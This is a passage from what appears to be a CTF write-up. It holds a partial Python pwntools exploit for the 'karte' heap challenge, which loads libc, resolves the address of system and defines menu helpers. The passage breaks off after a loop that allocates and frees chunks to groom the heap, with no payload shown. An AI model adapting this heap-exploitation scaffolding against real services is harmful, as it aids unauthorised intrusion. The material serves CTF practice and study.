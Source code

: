 Probability...

```python=
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = 'karte.chal.ctf.westerns.tokyo'
port = 10001

binary = "./karte"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

def add(size,content):
  r.recvuntil("> ")
  r.sendline("1")
  r.recvuntil("> ")
  r.sendline(str(size))
  r.recvuntil("> ")
  r.send(content)
  r.recvuntil("Added id ")
  return int(r.recvuntil("\n")[:-1])
  pass

def modify(index,content):
  r.recvuntil("> ")
  r.sendline("4")
  r.recvuntil("> ")
  r.sendline(str(index))
  r.recvuntil("> ")
  r.send(content)
  pass

def delete(index):
  r.recvuntil("> ")
  r.sendline("3")
  r.recvuntil("> ")
  r.sendline(str(index))
  pass

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

else:
  r = remote(host ,port)

if __name__ == '__main__':
  r.recvuntil("... ")
  r.send("?")
  for i in xrange(7):
    print i
    index1 = add(0x68,"A"*0x67)
    delete(index1)

```